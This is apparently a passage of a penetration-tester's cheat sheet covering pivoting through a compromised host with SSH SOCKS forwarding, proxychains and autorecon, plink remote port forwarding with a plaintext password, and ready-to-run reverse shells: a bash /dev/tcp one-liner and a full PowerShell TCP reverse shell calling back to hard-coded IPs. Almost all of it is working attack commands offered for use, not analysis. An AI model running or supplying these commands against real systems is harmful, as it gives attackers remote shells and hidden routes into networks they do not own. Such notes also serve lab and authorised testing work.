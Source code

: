 ```
sudo ssh -N -D kali-localIP:ProxyChainsPort compromised-user@compromised-boxIP
```

**Step 2**

Set proxychains conf to match ProxyChainsPort (see above) if not done already.

```
vim /etc/proxychains.conf
```

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 8080
```

**Step 3**

```
proxychains autorecon -t hosts.txt --dirbuster.tool dirsearch --no-port-dirs -o ./ --reports markdown -vv --proxychains
```

### Plink

```
cmd.exe /c echo y | plink.exe -ssh -l pentester -pw 'Fmd2!0%0' -R 192.168.119.220:111:127.0.0.1:111 192.168.119.220
```

## Reverse shells

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Bash

```
bash -c 'bash -i >& /dev/tcp/192.168.0.23/80 0>&1'
```

### Reverse powershell using kali terminal

```
powershell -nop -c "\$client = New-Object System.Net.Sockets.TCPClient('192.168.49.76',9443);\$s = \$client.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);\$sb = (iex \$data 2>&1 | Out-String );\$sb2 = \$sb + 'PS ' + (pwd).Path + '> ';\$sbt = ([text.encoding]::ASCII).GetBytes(\$sb2);\$s.Write(\$sbt,0,\$sbt.Length);\$s.Flush()};\$client.Close()"
```

### Reverse Powershell using windows command shell
